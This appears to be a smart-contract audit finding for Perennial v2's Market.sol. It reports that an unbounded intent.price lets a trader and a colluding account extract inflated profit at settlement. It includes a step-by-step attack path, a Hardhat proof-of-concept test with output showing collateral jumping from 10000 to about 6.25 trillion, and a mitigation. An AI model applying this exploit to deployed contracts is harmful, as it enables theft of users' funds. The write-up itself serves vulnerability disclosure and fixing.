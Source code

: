 Steep Rose Rattlesnake

High

# Maliciously specifying a very large intent.price will result in a large gain at settlement, stealing funds

### Summary

When Market.sol generates an order, if you specify a very large intent.price, you don't need additional collateral to guarantee it, and the order is submitted normally.
But the settlement will generate a large revenue pnl, the user can maliciously construct a very large intent.price, steal revenue

### Root Cause

in [CheckpointLib.sol#L79](https://github.com/sherlock-audit/2024-08-perennial-v2-update-3/blob/main/perennial-v2/packages/perennial/contracts/libs/CheckpointLib.sol#L79)

when the order is settled override pnl is calculated 
pnl = (toVersion.price - Intent.price) * taker()

This value is counted towards the collateral `local.collateral`

However, when adding a new order, there is no limit on `Intent.price`, and the user only needs small  collateral that is larger than what is required by `taker() * lastVersion.price`

In this way, a malicious user can specify a very large `Intent.price`, and both parties need only a small amount of collateral to generate a successful order

But at settlement, the profitable party gets the enlarged pnl and converts it to collateral, which the user can then steal.


### Internal pre-conditions

_No response_

### External pre-conditions

_No response_

### Attack Path

Example： 
lastVerson.price = 123 
Intent.price = 1250000000000  (Far more than the normal price)
Intent.postion = 5 

1. Alice deposit collateral = 10000     (As long as it is greater than `Intent.postion * lastVerson.price`)
2. Alice_fake_user deposit collateral = 10000     (As long as it is greater than `Intent.postion * lastVerson.price`)
3. alice execute update(account= alice, Intent = {account=Alice_fake_user , postion = 5 , price = 1250000000000 )
   - This order can be submitted successfully because the collateral is only related to Intent.postion and lastVerson.price
4. lastVerson.price still = 123
5. settle(alice) , pnl： (Intent.price - lastVerson.price)  * Intent.postion  = (1250000000000 - 123) * 5

Note:Alice_fake_user will be a huge loss, but that's ok, relative to profit, giving up very small collateral `10,000`.





### Impact

 Maliciously specifying a very large intent.price will result in a large gain at settlement, stealing funds

### PoC

The following example demonstrates that specifying a very large `intent.price` with a very small collateral
generating a very large return to collateral

add to `/perennial-v2/packages/perennial/test/unit/market/Market.test.ts`

```js
        it('test_intent_price', async () => {
          factory.parameter.returns({
            maxPendingIds: 5,
            protocolFee: parse6decimal('0.50'),
            maxFee: parse6decimal('0.01'),
            maxFeeAbsolute: parse6decimal('1000'),
            maxCut: parse6decimal('0.50'),
            maxRate: parse6decimal('10.00'),
            minMaintenance: parse6decimal('0.01'),
            minEfficiency: parse6decimal('0.1'),
            referralFee: parse6decimal('0.20'),
            minScale: parse6decimal('0.001'),
          })

          const marketParameter = { ...(await market.parameter()) }
          marketParameter.takerFee = parse6decimal('0.01')
          await market.updateParameter(marketParameter)

          const riskParameter = { ...(await market.riskParameter()) }
          await market.updateRiskParameter({
            ...riskParameter,
            takerFee: {
              ...riskParameter.takerFee,
              linearFee: parse6decimal('0.001'),
              proportionalFee: parse6decimal('0.002'),
              adiabaticFee: parse6decimal('0.004'),
            },
          })
          const test_price = '1250000000000';
          const SETTLEMENT_FEE = parse6decimal('0.50')
          const intent: IntentStruct = {
            amount: POSITION.div(2),
            price: parse6decimal(test_price),
            fee: parse6decimal('0.5'),
            originator: liquidator.address,
            solver: owner.address,
            collateralization: parse6decimal('0.01'),
            common: {
              account: user.address,
              signer: liquidator.address,
              domain: market.address,
              nonce: 0,
              group: 0,
              expiry: 0,
            },
          }

          await market
            .connect(userB)
            ['update(address,uint256,uint256,uint256,int256,bool)'](userB.address, POSITION, 0, 0, COLLATERAL, false)

          await market
            .connect(user)
            ['update(address,uint256,uint256,uint256,int256,bool)'](user.address, 0, 0, 0, COLLATERAL, false)
          await market
            .connect(userC)
            ['update(address,uint256,uint256,uint256,int256,bool)'](userC.address, 0, 0, 0, COLLATERAL, false)

          verifier.verifyIntent.returns()

          // maker
          factory.authorization
            .whenCalledWith(userC.address, userC.address, constants.AddressZero, liquidator.address)
            .returns([true, false, parse6decimal('0.20')])
          // taker
          factory.authorization
            .whenCalledWith(user.address, userC.address, liquidator.address, liquidator.address)
            .returns([false, true, parse6decimal('0.20')])

          console.log("before collateral:"+(await market.locals(userC.address)).collateral.div(1000000));
          await 
            market
              .connect(userC)
              [
                'update(address,(int256,int256,uint256,address,address,uint256,(address,address,address,uint256,uint256,uint256)),bytes)'
              ](userC.address, intent, DEFAULT_SIGNATURE);

          oracle.at
            .whenCalledWith(ORACLE_VERSION_2.timestamp)
            .returns([ORACLE_VERSION_2, { ...INITIALIZED_ORACLE_RECEIPT, settlementFee: SETTLEMENT_FEE }])

          oracle.at
            .whenCalledWith(ORACLE_VERSION_3.timestamp)
            .returns([ORACLE_VERSION_3, { ...INITIALIZED_ORACLE_RECEIPT, settlementFee: SETTLEMENT_FEE }])
          oracle.status.returns([ORACLE_VERSION_3, ORACLE_VERSION_4.timestamp])
          oracle.request.whenCalledWith(user.address).returns()
          
          await settle(market, user)
          await settle(market, userB)
          await settle(market, userC)

          console.log("after collateral:"+(await market.locals(userC.address)).collateral.div(1000000));
        })

```

```console
$ yarn test --grep test_intent_price

  Market
    already initialized
      #update
        signer
before collateral:10000
after collateral:6250000009384
          ✔ test_intent_price (44878ms)
```

### Mitigation

`intent.price - lastVersion.price` needs to be within a reasonable range and the difference must not be too large. And the difference needs to be secured by collateral.